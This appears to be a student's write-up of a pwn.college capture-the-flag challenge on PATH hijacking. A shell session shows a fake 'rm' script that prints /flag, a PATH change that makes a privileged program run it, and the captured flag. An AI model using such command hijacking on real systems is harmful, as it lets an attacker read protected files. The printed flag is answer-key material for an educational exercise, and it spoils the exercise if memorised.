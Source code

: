 # Hijacking Commands

### Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

**Flag:** `pwn.college{oUQeHhjaS2hZWL1Dq7yIj_dcYYA.QX3cjM1wSO4gjNzEzW}`

```
#!/bin/bash

hacker@path~hijacking-commands:~$ which rm
/run/dojo/bin/rm
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~hijacking-commands:~$ cat > /home/hacker/rm
#!/bin/bash
/run/dojo/bin/cat /flag
^C
hacker@path~hijacking-commands:~$ ls -l rm
-rw-r--r-- 1 hacker hacker 36 Oct 11 20:23 rm
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ PATH="/home/hacker"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{oUQeHhjaS2hZWL1Dq7yIj_dcYYA.QX3cjM1wSO4gjNzEzW}
```

## What I learned

I learnt to create a new script and edit the PATH variable to execute that script through /challenge/run

## References

NA
